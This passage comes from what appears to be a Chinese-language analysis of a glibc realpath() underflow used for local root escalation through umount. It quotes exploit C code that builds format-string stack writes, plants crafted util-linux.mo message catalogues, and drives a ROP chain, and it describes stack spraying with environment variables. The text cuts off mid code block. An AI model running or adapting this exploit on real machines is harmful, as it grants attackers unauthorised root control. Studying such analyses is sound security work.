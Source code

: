 ```c

          void *libcStartFunctionAddress=((void**)stackData)[exploitOffsets[ED_STACK_OFFSET_ARGV]-2];
          void *stackWriteData[]={
              libcStartFunctionAddress+exploitOffsets[ED_LIBC_GETDATE_DELTA],
              libcStartFunctionAddress+exploitOffsets[ED_LIBC_EXECL_DELTA]
          };
          fprintf(stderr, "Changing return address from %p to %p, %p\n",
              libcStartFunctionAddress, stackWriteData[0],
              stackWriteData[1]);
          escalationPhase++;	// 阶段加 1 => case 2

          char *escalationString=(char*)malloc(1024);		// 将下一阶段的格式化字符串写入到另一个 util-linux.mo 中
          createStackWriteFormatString(
              escalationString, 1024,
              exploitOffsets[ED_STACK_OFFSET_ARGV]+1, // Stack position of argv pointer argument for fprintf
              sourcePointerTarget, // Base value to write
              exploitOffsets[ED_STACK_OFFSET_ARG0]+1, // Stack position of argv[0] pointer ...
              libcStartFunctionReturnAddressSource,
              (unsigned short*)stackWriteData,
              sizeof(stackWriteData)/sizeof(unsigned short)
          );
          fprintf(stderr, "Using escalation string %s", escalationString);

          result=writeMessageCatalogue(
              secondPhaseCataloguePathname,
              (char*[]){
                  "%s: mountpoint not found",
                  "%s: not mounted",
                  "%s: target is busy\n        (In some cases useful info about processes that\n         use the device is found by lsof(8) or fuser(1).)"
              },
              (char*[]){
                  escalationString,
                  "BBBB5678%3$s\n",
                  "BBBBABCD%s\n"},
              3);
          break;
        case 2:		// 阶段 2，修改了参数 “LANGUAGE”，从而触发了 util-linux.mo 的重新读入，然后将新的格式化字符串写入到另一个 util-linux.mo 中
        case 3:		// 阶段 3，读取 umount 的输出以避免阻塞进程，同时等待 ROP 执行 fchown/fchmod 修改权限和所有者，最后退出
// Wait for pipe connection and output any result from mount.
          readDataLength=0;
          break;
          [...]
      }
      if(moveLength) {
        memmove(readBuffer, readBuffer+moveLength, readDataLength-moveLength);
        readDataLength-=moveLength;
      }
    }
  }

attemptEscalationCleanup:
  [...]
  return(escalationSuccess);
}
```
通过栈喷射在内存中放置大量的 "AANGUAGE=X.X" 环境变量，这些变量位于栈的上部，包含了大量的指针。当运行 umount 时，很可能会调用到 `realpath()` 并造成下溢。umount 调用 `setlocale` 设置 locale，接着调用 `realpath()` 检查路径的过程如下：
```c
/*
```